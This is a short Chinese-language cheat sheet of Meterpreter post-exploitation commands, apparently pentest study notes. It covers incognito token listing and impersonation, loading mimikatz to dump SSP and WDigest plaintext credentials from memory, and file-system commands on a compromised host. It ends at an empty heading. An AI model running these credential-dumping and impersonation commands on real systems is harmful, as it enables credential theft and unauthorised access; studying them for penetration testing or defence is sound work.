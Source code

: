 ```
use incognito
list_tokens -u
impersonate_token “Machine\\user”
```
### 抓取密码和获取密码
```
load mimikatz              \\使用load mimikatz加载mimikatz模块
```
```
ssp       \\抓取密码
wdigest    \\用户储存在内存里的明文密码。
```
![](img/3.png)
''x




## 代码整理

### 操作文件系统

```
1.文件的基本操作
ls：列出当前路径下的所有文件和文件夹。

pwd 或 getwd：查看当前路径。

search：搜索文件，使用search -h查看帮助。

cat：查看文件内容，比如cat test.txt。

edit：编辑或者创建文件。和Linux系统的vm命令类似，同样适用于目标系统是windows的情况。

rm：删除文件。

cd：切换路径。

mkdir：创建文件夹。

rmdir：删除文件夹。

getlwd 或 lpwd：查看自己系统的当前路径。

lcd：切换自己当前系统的目录。

lls：显示自己当前系统的所有文件和文件夹。
```

### 系统其它操作
